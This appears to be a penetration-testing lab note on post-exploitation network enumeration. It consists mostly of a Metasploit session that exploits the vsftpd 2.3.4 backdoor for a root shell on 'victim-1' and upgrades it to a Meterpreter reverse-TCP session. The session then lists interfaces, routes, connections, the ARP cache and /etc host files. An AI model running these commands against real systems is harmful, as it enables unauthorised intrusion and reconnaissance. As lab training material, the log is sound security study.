

# Enumerating Network Information

<figure><figcaption></figcaption></figure>

```sh
msf5 > setg rhosts 192.144.151.3
rhosts => 192.144.151.3
msf5 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   1  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 192.144.151.3:21 - The port used by the backdoor bind listener is already open
[+] 192.144.151.3:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.144.151.2:46717 -> 192.144.151.3:6200) at 2024-01-17 14:02:04 +0000

^Z
Background session 1? [y/N]  y
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.144.151.2:4433 
[*] Sending stage (985320 bytes) to 192.144.151.3
[*] Meterpreter session 2 opened (192.144.151.2:4433 -> 192.144.151.3:37816) at 2024-01-17 14:02:32 +0000
[*] Command stager progress: 100.00% (773/773 bytes)
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > sessions 2
[*] Starting interaction with 2...

meterpreter > 
```

```sh
meterpreter > ifconfig

Interface  1
============
Name         : lo
Hardware MAC : 00:00:00:00:00:00
MTU          : 65536
Flags        : UP,LOOPBACK
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0


Interface  2
============
Name         : ip_vti0
Hardware MAC : 00:00:00:00:00:00
MTU          : 1480
Flags        : NOARP


Interface 98964
============
Name         : eth0
Hardware MAC : 02:42:c0:90:97:03
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 192.144.151.3
IPv4 Netmask : 255.255.255.0


meterpreter > netstat

Connection list
===============

    Proto  Local address        Remote address       State        User   Inode  PID/Program name
    -----  -------------        --------------       -----        ----   -----  ----------------
    tcp    127.0.0.11:36703     0.0.0.0:*            LISTEN       65534  0      
    tcp    0.0.0.0:21           0.0.0.0:*            LISTEN       0      0      
    tcp    0.0.0.0:6200         0.0.0.0:*            LISTEN       0      0      
    tcp    192.144.151.3:37816  192.144.151.2:4433   ESTABLISHED  0      0      
    tcp    192.144.151.3:21     192.144.151.2:36507  CLOSE_WAIT   0      0      
    tcp    192.144.151.3:6200   192.144.151.2:46717  ESTABLISHED  0      0      
    udp    127.0.0.11:48137     0.0.0.0:*                         65534  0  
    


meterpreter > route

IPv4 network routes
===================

    Subnet         Netmask        Gateway        Metric  Interface
    ------         -------        -------        ------  ---------
    0.0.0.0        0.0.0.0        192.144.151.1  0       eth0
    192.144.151.0  255.255.255.0  0.0.0.0        0       eth0

No IPv6 routes were found.


meterpreter > shell
Process 24 created.
Channel 1 created.
/bin/bash -i
bash: cannot set terminal process group (10): Inappropriate ioctl for device
bash: no job control in this shell
root@victim-1:~/vsftpd-2.3.4# ip a s
ip a s
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: ip_vti0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN group default qlen 1000
    link/ipip 0.0.0.0 brd 0.0.0.0
98964: eth0@if98965: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:c0:90:97:03 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 192.144.151.3/24 brd 192.144.151.255 scope global eth0
       valid_lft forever preferred_lft forever
       
       

root@victim-1:~/vsftpd-2.3.4# cat /etc/networks
cat /etc/networks
default         0.0.0.0
loopback        127.0.0.0
link-local      169.254.0.0


root@victim-1:~/vsftpd-2.3.4# cat /etc/hostname
cat /etc/hostname
victim-1


root@victim-1:~/vsftpd-2.3.4# cat /etc/hosts
cat /etc/hosts
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
192.144.151.3   victim-1


root@victim-1:~/vsftpd-2.3.4# cat /etc/resolv.conf
cat /etc/resolv.conf
search members.linode.com
nameserver 127.0.0.11
options edns0 trust-ad ndots:0


meterpreter > arp

ARP cache
=========

    IP address     MAC address        Interface
    ----------     -----------        ---------
    192.144.151.2  02:42:c0:90:97:02  
```
